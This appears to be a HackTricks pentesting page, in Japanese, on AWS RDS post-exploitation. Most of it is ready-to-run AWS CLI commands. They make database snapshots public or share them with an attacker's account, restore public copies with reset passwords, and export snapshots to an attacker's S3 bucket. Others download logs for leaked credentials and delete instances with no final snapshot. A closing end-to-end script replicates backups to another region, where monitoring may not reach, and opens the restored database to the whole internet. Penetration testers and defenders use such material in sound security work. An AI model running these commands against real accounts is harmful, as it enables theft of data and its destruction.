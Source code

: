 # AWS - RDS Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## RDS

詳細は以下を参照してください：

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

攻撃者に十分な権限がある場合、DBのスナップショットを作成し、そのスナップショットから公開アクセス可能なDBを作成することで、**DBを公開アクセス可能にする**ことができます。
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

これらの権限を持つ攻撃者は、**DBのスナップショットを作成する**ことができ、それを**パブリックに** **利用可能にする**。その後、そのスナップショットから自分のアカウントでDBを作成することができる。

もし攻撃者が **`rds:CreateDBSnapshot` を持っていない場合**、それでも作成済みの **他の** スナップショットを **パブリック** にすることができる。
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` 権限を持つ攻撃者は、**RDSインスタンスのログファイルの一部をダウンロード**できます。機密データやアクセス資格情報が誤ってログに記録されている場合、攻撃者はこの情報を利用して権限を昇格させたり、不正な操作を実行したりする可能性があります。
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
**Potential Impact**: leaked credentials を使用して、機密情報へのアクセスや不正な操作が行われる可能性があります。

### `rds:DeleteDBInstance`

これらの権限を持つ攻撃者は**既存のRDSインスタンスをDoSする**ことができます。
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**Potential impact**: 既存の RDS インスタンスの削除、およびデータ喪失の可能性。

### `rds:StartExportTask`

> [!NOTE]
> TODO: テスト

この権限を持つ攻撃者は**RDS インスタンスのスナップショットを S3 バケットにエクスポートすることができます**。攻撃者が宛先の S3 バケットを制御している場合、エクスポートされたスナップショット内の機密データにアクセスできる可能性があります。
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
**Potential impact**: エクスポートされたスナップショット内の機密データへのアクセス。

### ステルスな復元のためのクロスリージョン自動バックアップ複製 (`rds:StartDBInstanceAutomatedBackupsReplication`)

クロスリージョン自動バックアップ複製を悪用して、RDSインスタンスの自動バックアップを別の AWS Region にこっそり複製し、そこで復元します。攻撃者は復元した DB を公開アクセス可能にし、マスターパスワードをリセットして、検知や監視が及ばない可能性のある Region でアウトオブバンドにデータにアクセスできます。

Permissions needed (minimum):
- `rds:StartDBInstanceAutomatedBackupsReplication` in the destination Region
- `rds:DescribeDBInstanceAutomatedBackups` in the destination Region
- `rds:RestoreDBInstanceToPointInTime` in the destination Region
- `rds:ModifyDBInstance` in the destination Region
- `rds:StopDBInstanceAutomatedBackupsReplication` (optional cleanup)
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (復元した DB を公開するため)

Impact: 本番データのコピーを別の Region に復元し、攻撃者管理の認証情報で公開することで、永続化およびデータ持ち出しが可能になります。

<details>
<summary>エンドツーエンド CLI（プレースホルダを置き換えてください）</summary>
```bash
# 1) Recon (SOURCE region A)
aws rds describe-db-instances \
--region <SOURCE_REGION> \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,DBInstanceStatus,PreferredBackupWindow]' \
--output table

# 2) Start cross-Region automated backups replication (run in DEST region B)
aws rds start-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN> \
--source-region <SOURCE_REGION> \
--backup-retention-period 7

# 3) Wait for replication to be ready in DEST
aws rds describe-db-instance-automated-backups \
--region <DEST_REGION> \
--query 'DBInstanceAutomatedBackups[*].[DBInstanceAutomatedBackupsArn,DBInstanceIdentifier,Status]' \
--output table
# Proceed when Status is "replicating" or "active" and note the DBInstanceAutomatedBackupsArn

# 4) Restore to latest restorable time in DEST
aws rds restore-db-instance-to-point-in-time \
--region <DEST_REGION> \
--source-db-instance-automated-backups-arn <AUTO_BACKUP_ARN> \
--target-db-instance-identifier <TARGET_DB_ID> \
--use-latest-restorable-time \
--db-instance-class db.t3.micro
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5) Make public and reset credentials in DEST
# 5a) Create/choose an open SG permitting TCP/3306 (adjust engine/port as needed)
OPEN_SG_ID=$(aws ec2 create-security-group --region <DEST_REGION> \
--group-name open-rds-<RAND> --description open --vpc-id <DEST_VPC_ID> \
--query GroupId --output text)
aws ec2 authorize-security-group-ingress --region <DEST_REGION> \
--group-id "$OPEN_SG_ID" \
--ip-permissions IpProtocol=tcp,FromPort=3306,ToPort=3306,IpRanges='[{CidrIp=0.0.0.0/0}]'

# 5b) Publicly expose restored DB and attach the SG
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids "$OPEN_SG_ID" \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5c) Reset the master password
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--master-user-password '<NEW_STRONG_PASSWORD>' \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 6) Connect to <TARGET_DB_ID> endpoint and validate data (example for MySQL)
ENDPOINT=$(aws rds describe-db-instances --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text)
mysql -h "$ENDPOINT" -u <MASTER_USERNAME> -p'<NEW_STRONG_PASSWORD>' -e 'SHOW DATABASES;'

# 7) Optional: stop replication
aws rds stop-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN>
```
</details>


{{#include ../../../banners/hacktricks-training.md}}
